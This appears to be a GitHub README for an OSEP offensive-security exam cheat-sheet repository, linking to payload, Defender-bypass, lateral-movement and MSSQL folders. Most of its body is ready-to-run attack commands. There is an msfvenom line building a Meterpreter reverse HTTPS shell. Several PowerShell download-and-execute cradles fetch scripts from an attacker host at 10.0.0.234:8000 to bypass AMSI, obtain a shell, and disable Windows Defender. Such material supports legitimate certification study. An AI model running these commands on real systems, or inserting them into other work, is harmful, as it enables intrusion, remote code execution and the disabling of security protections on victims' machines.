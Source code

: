# OSEP 

this repository modified based on from `https://github.com/In3x0rabl3/OSEP`

# Summary

This repository will refresh your memory when taking the OSEP exam. 
<br>
Thank you, to everyone who's code was used in this repository.


# Table of Contents

- [OSEP_Reference](https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md)
- [OSEP_Checklist](https://github.com/In3x0rabl3/OSEP/blob/main/osep_checklistv2.md)
- [OSEP_Payloads](https://github.com/In3x0rabl3/OSEP/tree/main/Payloads)
- [OSEP_Bypass_Defender](https://github.com/In3x0rabl3/OSEP/tree/main/Bypass_Defender)
- [OSEP_Lateral_Movement](https://github.com/In3x0rabl3/OSEP/tree/main/Lateral_Movement)
- [OSEP_MSSQL](https://github.com/In3x0rabl3/OSEP/tree/main/MSSQL)



## OneKey Bypass Powershell And Get Shell
- msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.234 LPORT=443 -f ps1
- (New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/Msfvenom_Bin/bypass_Ams1_getShell.ps1') | IEX;

# OneKey Bypass Posershell AMSI
- (New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/Bypass_Defender/bypassAms1.ps1') | IEX;


# OneKey Disable Windows Defender
- (New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/Bypass_Defender/DefendersDeath.ps1') | IEX;
- (New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/Bypass_Defender/DisableDefender.ps1') | IEX;

+ (need administrator priviledge)
